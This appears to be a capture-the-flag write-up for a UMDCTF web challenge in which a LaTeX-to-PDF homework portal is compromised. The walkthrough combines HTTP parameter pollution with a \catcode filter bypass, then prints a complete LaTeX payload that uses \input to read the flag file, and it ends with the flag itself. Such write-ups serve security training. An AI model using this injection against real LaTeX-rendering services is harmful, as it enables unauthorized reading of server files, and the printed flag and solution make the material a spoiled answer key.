 # Homework Render
Challenge Description: 
`Isn't writing math homework hard? We have created an easy-to-use homework submission portal that allows you to type up your homework. We don't think anyone can get into this server for free answers!`
## Build Instructions

```sh
docker build -t hw_render .

docker run -p EXTERNAL_PORT:4433 hw_render
```
## Notes
Do not provide any source files for this challenge.
## Walkthrough
When you first visit the page, you will just see a textarea and a submit button. When you enter latex into the textarea and click submit, you will see that the latex gets rendered into a pdf. With this knowledge, you can try normal latex injection techinques, but you will notice that the server blocks any unsafe commands. The first step is to use http parameter pollution to bypass this check. If you enter a duplicate latex get parameter like this: latex=bob&latex=joe, the frontend server will process the first parameter and the backend server will process the second. Thus, if you put some valid latex into the first parameter, you can use some unsafe latex in the parameter. Through testing this bypass, you will see that only one latex command is unpatched in the backend server: \catcode. Through using several catcode characters, you can bypass the filtering and use the \input command to include the flag file and display the contents. The path to the flag file is in robots.txt which is hinted in a comment on the main page. 
Here is a sample of the final latex payload:
```txt
\documentclass[a4paper]{article}
\begin{document}
\catcode`@=0
\catcode`i=11
\catcode`n=11
\catcode`p=11
\catcode`u=11
\catcode`t=11
\catcode`I=11
\catcode`N=11
\catcode`P=11
\catcode`U=11
\catcode`T=11

@def@myInput#1{%
  @catcode`i=12
  @catcode`n=12
  @catcode`p=12
  @catcode`u=12
  @catcode`t=12
  @catcode`I=12
  @catcode`N=12
  @catcode`P=12
  @catcode`U=12
  @catcode`T=12
  @input{#1}
  @catcode`i=11
  @catcode`n=11
  @catcode`p=11
  @catcode`u=11
  @catcode`t=11
  @catcode`I=11
  @catcode`N=11
  @catcode`P=11
  @catcode`U=11
  @catcode`T=11
}

@myInput{/path/to/flag}
\end{document}
```
## Flag
```UMDCTF{M4th_iS_H4rd_bUt_LaT3X_1s_H4rd3r}```
